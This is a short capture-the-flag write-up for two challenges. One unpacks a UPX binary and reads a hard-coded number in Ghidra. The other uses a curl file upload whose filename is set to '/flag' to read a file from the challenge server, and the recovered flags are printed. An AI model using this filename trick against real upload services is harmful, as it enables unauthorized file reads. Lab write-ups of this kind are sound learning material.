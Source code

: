 # what's UP, X! 200
#### something funny about the question title..

### File - [upx](https://github.com/gamer-1478/unreal-ctf/blob/main/upx)

decoding it with upx was really challenging for a while. I had to go to a windows system and download the latest release for windows. 

using ``upx -d upx`` on the file we get a binary of upx

![image](https://github.com/gamer-1478/unreal-ctf/assets/74775129/6669533e-e0a0-41d4-94f2-aa202d908466)

opening the binary in gidhra

![image](https://github.com/gamer-1478/unreal-ctf/assets/74775129/81ff5646-27ec-41b2-b9d8-e810f89c43b1)

we see that the fav number is clearly in text given as 6942

entering it to the binary we get the flag. 

```
flag - unreal{haha_funny_number}
```

# sec-web 250
#### yes another one, go http://195.154.231.70:5341

[sec-web.zip](https://github.com/gamer-1478/unreal-ctf/blob/main/sec.zip)

found a writeup for this challenge - https://iwanflagz.github.io/RaRCTF-2021-writeups/web/secureuploader.html

following it, my sol was

```bash
curl -v -L -F "file=@shop;filename=/flag" http://195.154.231.70:5341/upload
```
shop can be changed for any file avaiable on your desktop. 

which gives the flag 
``` 
Flag - unreal{m07h3rfuck1n6_j01n}
``` 
